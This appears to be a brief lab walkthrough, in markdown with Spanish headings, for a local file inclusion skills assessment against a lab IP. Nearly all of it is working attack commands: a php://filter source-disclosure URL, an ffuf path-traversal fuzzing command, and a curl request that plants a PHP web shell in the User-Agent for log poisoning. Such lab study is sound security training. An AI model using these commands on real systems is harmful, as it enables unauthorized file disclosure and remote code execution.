



# Skills Assessment

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

```text
http://83.136.253.171:44707/index.php?page=php://filter/read=convert.base64-encode/resource=index
```

```php
<?php 
	// echo '<li><a href="ilf_admin/index.php">Admin</a></li>'; 
?>
```



```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://83.136.253.171:44707/ilf_admin/index.php?log=../../../../../FUZZ -fs 2046
```



```bash
curl -A '<?php system($_GET['cmd']); ?>' http://83.136.253.171:44707
```



## Material relacionado

- [File Disclosure](../../../Web-Security/File-Inclusion/file-disclosure.md)
- [Functions](../../../Web-Security/File-Inclusion/functions.md)
- [RCE](../../../Web-Security/File-Inclusion/rce.md)
